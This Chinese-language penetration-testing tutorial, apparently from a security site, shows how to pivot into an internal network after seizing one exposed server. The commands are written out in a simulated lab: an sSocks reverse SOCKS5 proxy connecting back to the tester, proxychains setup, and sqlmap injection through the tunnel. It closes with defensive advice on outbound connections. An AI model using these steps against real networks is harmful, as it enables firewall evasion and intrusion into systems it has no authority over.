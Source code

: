 **随着信息安全意识的提升，越来越多的信息系统前端均部署有防火墙，系统管理员根据业务需求将内部必要的服务端口通过端口映射等手段映射到公网中，如默认****web**服务端口**80**、**MSSQL**数据库服务端口*1433等。通过部署防火墙可以将信息系统内部区域与公网逻辑隔离开来，利用相关的策略有效避免或减轻来自外部的攻击。

对于渗透测试者来说，如何绕过防火墙的阻挡在内网展开渗透测试成为亟需解决的问题，本文介绍了在夺取映射到外网的内网服务器权限后，如何利用socks代理反弹获得内网访问权限。

1.sSocks

sSocks是一个[socks代理](http://www.freebuf.com/news/topnews/111545.html)工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，其最新版为0.0.13，可在以下链接处下载。

[http://sourceforge.net/projects/ssocks/](http://sourceforge.net/projects/ssocks/)

下载解压后，执行命令编译。

```
./configure && make
```

编译完成，进入src目录，会发现有nsocks、ssocksd、ssocks、rcsocks，其功能说明介绍如下：

程序 功能
**nsocks** 类似通过Socks5代理后的netcat，可用来测试socks server
**ssocksd** 用来开启Socks5代理服务
**ssocks** 本地启用Socks5服务，并反弹到另一IP地址
**rcsocks** 接收反弹过来的Socks5服务，并转向另一端口

**2.模拟网络环境说明**

 本文模拟的网络环境见下图1，渗透测试端IP为192.168.10.50，内网区域IP段192.168.206.0/24，内网区域能正常访问192.168.10.0/24，现假设已获得192.168.206.130权限。 

[![模拟的网络环境](http://image.3001.net/uploads/image/20130901/20130901105859_75679.jpg)](http://image.3001.net/uploads/image/20130901/20130901105859_75679.jpg)

**3.实施Socks代理反弹**
**1)本地监听端口**
在渗透测试端192.168.10.50执行

```
./rcsocks -l 1088 -p 1080 -vv
```

等待远程Socks5服务器访问本地1080端口，创建端口1080与本地端口1088的连接通道，如图2。 

[![Socks代理反弹突破内网](http://image.3001.net/uploads/image/20130901/20130901105926_77843.jpg)](http://image.3001.net/uploads/image/20130901/20130901105926_77843.jpg)

**2)开启Socks5代理服务，反弹**
在192.168.206.130上执行

```
./rssocks -vv -s 192.168.10.50:1080
```

启用Socks5服务，反弹到192.168.10.50的端口1080上，如图3。 

[![开启Socks5代理服务，反弹](http://image.3001.net/uploads/image/20130901/20130901110001_38329.jpg)](http://image.3001.net/uploads/image/20130901/20130901110001_38329.jpg)

此时在渗透测试端192.168.10.50可看到通道连接成功，效果如图4。

[![通道连接成功](http://image.3001.net/uploads/image/20130901/20130901110020_58042.jpg)](http://image.3001.net/uploads/image/20130901/20130901110020_58042.jpg)

**4.利用proxychains进行Socks5代理**
通过前面的步骤，Socks5代理已创建完成了。由于在渗透测试过程中，需要使用不同的工具程序，而在各程序中分别配置Socks5代理信息较为繁琐，而部分程序并不支持配置Socks5代理。为了简化这些操作，我们可以采用proxychains。
proxychains是一个代理客户端软件，可以支持几乎所有程序的代理，如ssh，telnet，ftp等。利用proxychains，程序能在代理的环境下被加载运行，而本身不需要具备代理功能。使用前需要对proxychains进行简单配置，打开配置文件proxychains.conf（在BT5位于/etc/proxychains.conf），如图5所示，在[ProxyList]处添加
**socks5 127.0.0.1 1088**

[![利用proxychains进行Socks5代理](http://image.3001.net/uploads/image/20130901/20130901110043_92020.jpg)](http://image.3001.net/uploads/image/20130901/20130901110043_92020.jpg)

配置成功后若要启动程序，仅需要在启动程序命令前加上proxychains。
**1)启用浏览器firefox，在终端执行命令：**

```
proxychains firefox
```

firefox启动成功，访问192.168.206.135的web服务如图6，通过代理访问成功。

[![通过代理访问成功](http://image.3001.net/uploads/image/20130901/20130901110125_93242.jpg)](http://image.3001.net/uploads/image/20130901/20130901110125_93242.jpg)

**2)利用sqlmap进行注入：**
先切换到sqlmap目录
cd /pentest/database/sqlmap
proxychains python sqlmap.py -u “存在SQL注入的链接” –dbs
注入成功，注入点信息及获取数据库信息如图7所示。

[![利用sqlmap进行注入](http://image.3001.net/uploads/image/20130901/20130901110208_52827.jpg)](http://image.3001.net/uploads/image/20130901/20130901110208_52827.jpg)

**5.后记**
由于系统管理员的疏忽或者业务需求所致，防火墙一般仅对由外向内发起的数据连接进行严格判断、过滤、甚至阻断而忽略由内往外的连接。因此，在此种情况下，通过攻陷映射到公网的端口服务，利用反弹便可获取内网访问权限，给内网安全带来极大的威胁。在信息安全建设与运维过程中，不仅要加强映射到公网的服务安全，也要重视由内到外连接的安全威胁。
